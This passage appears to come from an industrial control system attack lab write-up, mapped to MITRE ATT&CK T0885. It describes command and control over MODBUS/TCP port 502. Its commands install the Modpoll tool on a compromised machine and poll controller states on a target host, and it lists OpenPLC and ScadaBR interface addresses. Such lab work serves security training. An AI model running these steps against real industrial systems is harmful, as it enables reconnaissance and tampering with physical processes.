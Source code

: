 # Command and Control

#### **Blending in with Normal Network Activity Using MODBUS/TCP (Port 502)**

The attacker uses a commonly used port (MODBUS/TCP:502) to bypass firewalls and detection systems, blending in with normal network activity. (MODBUS or HTTP(S), OPC, RDP, telnet,...) \[T0885 - <https://attack.mitre.org/techniques/T0885/> ]

The attacker uses the **MODBUS/TCP** protocol, which typically operates on port **502**, to establish Command and Control between the compromised machines. By utilizing this widely-used industrial protocol, the attacker avoids raising suspicion, as MODBUS traffic is considered normal within many industrial control system (ICS) environments.


****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe68s9l88LiLzW58oAIbExkM1PYLvscOAAqFAvHHp6tOLt51MaLQ8FPIz7tMdvKEHOW4l0nL_VB9IUBwj8AA8V_T4d31CiCoXBRMqdYOjUH6Dbb-vHvfuF0mTgx-oDDinR1c7jWYZGhh5tQT27915pN327E?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 12:** Network scanning in M2, discovery of M3 network and 502 MODBUS TCP port.

1. **Installing Modpoll on Machine M2 (Attack Machine):**

- The attacker installs the **Modpoll** tool on the compromised M2 to interact with MODBUS devices in the network.

- Modpoll is a command-line tool for polling MODBUS data, allowing the attacker to **read and write** data from MODBUS registers on the target machines.

```
# step 1 install modpoll in M2

wget https://www.modbusdriver.com/downloads/modpoll.tgz

tar xzf modpoll.tgz

export PATH=modpoll/x86_64-linux-gnu:$PATH

```

2. **MODBUS Polling on M3 (System Controller) via MODBUS/TCP:**

- The attacker executes **Modpoll** to query the state of the system controllers on machine M3 using the MODBUS protocol over TCP (Port 502):

```
# step 1 checking machine/system controller states
# response can take some minutes
modpoll -m tcp -r 1 -c 4 -t 0 192.168.52.6 # the -c is the number of outputs you want to get, the response of this command can take some seconds to appear

```


![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdulCra-JfynzhNl3cQL84b5hF-KSM-R9Rpvw0YXXjbZuVnY0Np9DSqu0n3gC8_t2p-sqYn3tMN04iHupeVMoOjh9XNQGdUbqBrcqd6oQCJJQwKG3jJoZF3lP5YbpphLmiewSJlu9VdX0I4iT-2GBEla9-x?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 13:** Response of MODBUS TCP port, controller states of systems in M3.

3. **Comparing Data with HMI Systems (ScadaBR and OpenPLC):**

- From the web interfaces of **ScadaBR** (http\://10.208.89.15:9090/ScadaBR/) and **OpenPLC** (http\://10.208.89.15:8080/monitoring), the attacker can see that they have the same information that authorized users would have about the machines' statuses.

- The attacker essentially mirrors what operators would see on their HMI (Human-Machine Interface), giving them full visibility into the operational state of the industrial control systems.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeLC8bPw3IoFnITDBK4Sn8iGF9yl1hOpoJymoFGglkc9cOz4h-MVLNfP4t2ucEE9GGSbH46LVc05i-2Jg_pMnI5B2Ud9WWvf1HRrbDj1ikRuQNAi8laqj1C9LUqMEDugh_zdkr_mUZtkWKhbYp5slwMt1g?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 14:** OpenPLC (right) and ScadaBR HMI (left).
